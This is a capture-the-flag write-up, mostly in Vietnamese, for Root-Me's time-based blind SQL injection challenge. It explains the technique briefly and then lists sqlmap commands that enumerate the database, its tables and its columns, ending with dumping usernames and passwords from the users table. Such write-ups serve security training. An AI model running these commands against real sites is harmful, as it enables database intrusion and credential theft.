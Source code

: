 # SQL injection - Time based 

Point: 45

Be patient

Statement: Retrieve administrator’s password.

Related ressource: [Time-Based Blind SQL Injection using Heavy Queries](https://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20Time%20based%20blind%20SQL%20Injection%20using%20heavy%20queries.pdf?_gl=1*31a6v3*_ga*MTE0NDg5MTA5LjE2Nzk2MzIzMDY.*_ga_SRYSKX09J7*MTY4Mjc0Nzk4OC44MS4xLjE2ODI3NDgwMjAuMC4wLjA.)

# Overview:

Time based SQL injection-là 1 kiểu tấn công blind SQL thường được dùng khi không còn cách nào khác để khai thác cơ sở dữ liệu.Kĩ thuật này gửi 1 truy vấn đến cơ sở dữ liệu, buộc cơ sở dữ liệu phải đợi 1 khoảng thời gian trước khi phản hồi. Và dựa vào thời gian phản hồi ấy hacker có thể xác định được truy vấn đưa ra là đúng hay sai. Thông thường là kiểm tra thứ tự từng kí tự của bảng hay của cột từ đó đạt được tên bảng tên cột và cả data.

Form của challenge

![image](https://user-images.githubusercontent.com/115911041/235286776-993a4abe-07ac-4f5a-b039-5538fd5e6b36.png)

Có 2 phần chính là `Login` và `Member list`. Bài này mình giải bằng 2 cách SQL map và code python.

# Solution:

## SQLmap

Khi ta chuyển sang phần `member` và chọn `admin` thì URL có thay đổi, nên ta có thể khai thác từ tham số đó

`python3 sqlmap.py -u "http://challenge01.root-me.org/web-serveur/ch40/?action=member&member=1" --time-sec=3 --dbs`

![image](https://user-images.githubusercontent.com/115911041/235287468-b2ba4c20-07b0-4fff-ae10-adf0d4f50df2.png)

Kết quả cho ra database `public`.Tiếp tục truy cập vào `public`.

`python3 sqlmap.py -u "http://challenge01.root-me.org/web-serveur/ch40/?action=member&member=1 --time-sec=3 -D public --tables`

![image](https://user-images.githubusercontent.com/115911041/235288969-3bf14840-e3a8-4e22-a377-6564d30394e2.png)

Ra kết quả có tables `users`. Tiếp tục vào table `users`

`python3 sqlmap.py -u "http://challenge01.root-me.org/web-serveur/ch40/?action=member&member=1" --time-sec=3 -D public -T users --columns`

![image](https://user-images.githubusercontent.com/115911041/235289845-443aaeab-772f-44a8-8c43-d0676bb7a7aa.png)

Bước cuối chỉ cần lấy data các column nữa là xong

`python3 sqlmap -u "http://challenge01.root-me.org/web-serveur/ch40/?action=member&member=1" --time-sec=10 -D public -T users -C id,email,usermame,password --dump`


